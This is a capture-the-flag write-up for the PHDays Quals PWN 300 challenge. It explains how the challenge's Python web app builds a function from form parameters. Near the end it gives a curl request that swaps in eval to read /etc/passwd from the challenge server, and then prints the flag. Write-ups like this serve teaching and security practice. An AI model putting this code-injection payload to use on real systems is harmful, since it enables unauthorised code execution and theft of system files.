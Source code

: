 # PHDays Quals PWN 300

PWN 300 is a 'south park administration' website.

It only has a form:

* Select between {Kenny, Stan, Kyle, Eric, Butters, Token}
* Radio buttons for {Kill, Arrest, Bankrupt}
* Submit button

Click submit, and it'll return a message like `Kenny was killed`,
depending on the input.

The html source code provides a comment, stating that **the flag is inside
of /etc/passwd**. We are also given the source code for the website.

**web.py** is a python twisted web server.
By default, it serves the main web page, which is hard coded as a
string. For POST requests, it passes the arguments from the request to a
function from the other file.

**process.pyc** is compiled python that web.py makes use of.

We decompile process.pyc to get process.py. Thanks [unpyc](http://code.google.com/p/unpyc/). There is one issue with the decompiled code. A line inside of the 'create_function' function in process.py reads: 

    consts = ((None,) + (human))

Which doesn't work. Change it so that it does what it probably was meant
to do.

    consts = tuple([None, human])

Now it is possible to run web.py locally and have the same output as the
online version.

**process.py** provides a function that dynamically builds up another
function. What it does:

* Builds up an list of information needed for a python code object.
* Passes the list into types.codeType to generate a python code object.
* Passes the python code object into types.FunctionType to create a function.
* Calls the resultant function and passes the output string back to
  web.py.

It turns out that we don't actually need to understand how python code
objects work to exploit this.

Here is the bottom of process.py, which is all that we actually need to
exploit this.

    def kill(name):
        return ('%s was killed' % name)

    def arrest(name):
        return ('%s was arrested' % name)

    def bankrupt(name):
        return ('%s was bankrupted' % name)

    def process(args):
        actions = tuple(args['actions'])
        choice = args['choice'][0]
        human = args['human'][0]
        return create_function('myfunc', 0, choice, actions, human)()

When printed, args looks like this (depends on what the web client passes in):

    {'actions': ['kill', 'arrest', 'bankrupt'], 'human': ['Kenny'], 'choice': ['\x00']} 

Based on the value inside of 'choice', process.py will choose one of the
options inside of 'actions', which correspond to function names to use
in the dynamically generated function. The first value inside of 'human'
gets passed in as an argument. We can replace one of the functions with
eval. We want args to look like:

    {'actions': ['eval', 'arrest', 'bankrupt'], 'human': ['str(open("/etc/passwd"))'], 'choice': ['\x00']}

Construct a request to send in these parameters:

    $ curl -d "actions=eval&actions=arrest&human=str(open(\"/etc/passwd\").read())&choice=%00" http://ctf.phdays.com:2137

And it dumps /etc/passwd, which contains the flag in plaintext.

    d9301a72ee12eabb2b913398a3fab50b
